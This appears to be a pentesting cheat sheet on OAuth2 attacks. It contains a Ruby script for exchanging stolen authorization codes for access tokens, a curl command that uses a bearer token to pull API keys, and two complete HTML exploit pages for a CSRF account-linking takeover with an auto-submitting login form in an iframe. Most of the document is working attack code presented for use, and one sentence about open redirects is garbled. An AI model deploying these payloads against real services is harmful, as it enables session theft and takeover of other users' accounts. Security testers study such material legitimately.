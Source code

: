 # OAuth2

## Open Redirect

When authorising with OAuth, then the redirect parameters for open redirects.  
This can be used to steal session codes from victims.  

## Get Access Tokens with Ruby

If you can create a resource, this script can be used with XSS or CSRF to steal sessions:  
Script from Louis at Pentesterlab  

```ruby
require 'oauth2'

callback = "[CALLBACK_URL]"
app_id = "[APPLICATION_ID]"

secret = "[SECRET]"
client = OAuth2::Client.new(app_id, secret, site: "[AUTHORIZATION_SERVER]")
client.auth_code.authorize_url(redirect_uri: callback)

code="[CODE]"
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token 
```

Feed the token returned from above into this command:  

```bash
curl -H 'Authorization: Bearer [TOKEN]' [RESOURCE_SERVER]/api/keys --dump-header -
```

## CSRF to Access Another User's Account

1. Start by creating a malicious account on the `authorisation server` and the `OAuth2 Client`
2. Line these two accounts and then unlink them
3. Check that the process of signing in and authorising does not require CSRF tokens
4. Create an HTML page to be loaded inside an iframe. Copy the form found in the source of the target page

```html
<!-- frame.html -->
<html>
        <body onload="document.getElementById('csrf').submit()">
<form class="new_user" id="csrf" action="http://target.com/users/sign_in" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="xwlEm/OXisbDKOWdxJIFZCX7C/OGvl00RiJQehGA9pgAMqxgMS3QlF4kfbtrkAR1NGH0X+cY0OEdkGRm5X0iXw==">
  <div class="field">
    <label for="user_email">Email</label><br>
    <input autofocus="autofocus" autocomplete="email" type="email" value="test2@example.com" name="user[email]" id="user_email">
  </div>

  <div class="field">
    <label for="user_password">Password</label><br>
    <input autocomplete="current-password" type="password" value="password" name="user[password]" id="user_password">
  </div>

    <div class="field">
      <input name="user[remember_me]" type="hidden" value="0"><input type="checkbox" value="1" name="user[remember_me]" id="user_remember_me">
      <label for="user_remember_me">Remember me</label>
    </div>

  <div class="actions">
    <input type="submit" name="commit" value="Log in" data-disable-with="Log in">
  </div>
</form>
</body>
</html>
```

5. Create an HTML page that will load your iframe and then open the authorisation page after a timeout

```html
<!-- exploit.html -->
<html>
        <body>
                <iframe src="frame.html"></iframe>
        <script>
                setTimeout(function() {window.location="http://target.com/users/auth/myprovider"}, 500);
        </script>
        </body>
</html>

```



